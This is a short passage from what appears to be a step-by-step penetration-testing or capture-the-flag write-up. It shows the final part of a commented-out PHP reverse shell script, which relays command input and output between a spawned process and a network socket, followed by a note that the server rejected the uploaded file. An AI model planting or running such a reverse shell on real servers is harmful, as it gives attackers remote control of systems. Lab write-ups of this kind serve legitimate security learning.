 ```PHP
// 		if ($debug) printit("SOCK: $input");
// 		fwrite($pipes[0], $input);
// 	}
// 
// 	if (in_array($pipes[1], $read_a)) {
// 		if ($debug) printit("STDOUT READ");
// 		$input = fread($pipes[1], $chunk_size);
// 		if ($debug) printit("STDOUT: $input");
// 		fwrite($sock, $input);
// 	}
// 
// 	if (in_array($pipes[2], $read_a)) {
// 		if ($debug) printit("STDERR READ");
// 		$input = fread($pipes[2], $chunk_size);
// 		if ($debug) printit("STDERR: $input");
// 		fwrite($sock, $input);
// 	}
// }
// 
// fclose($sock);
// fclose($pipes[0]);
// fclose($pipes[1]);
// fclose($pipes[2]);
// proc_close($process);
// 
// function printit ($string) {
// 	if (!$daemon) {
// 		print "$string\n";
// 	}
// }
// 
//?>

```

___Step 3.3.:___ Server does not fancy shelly.php
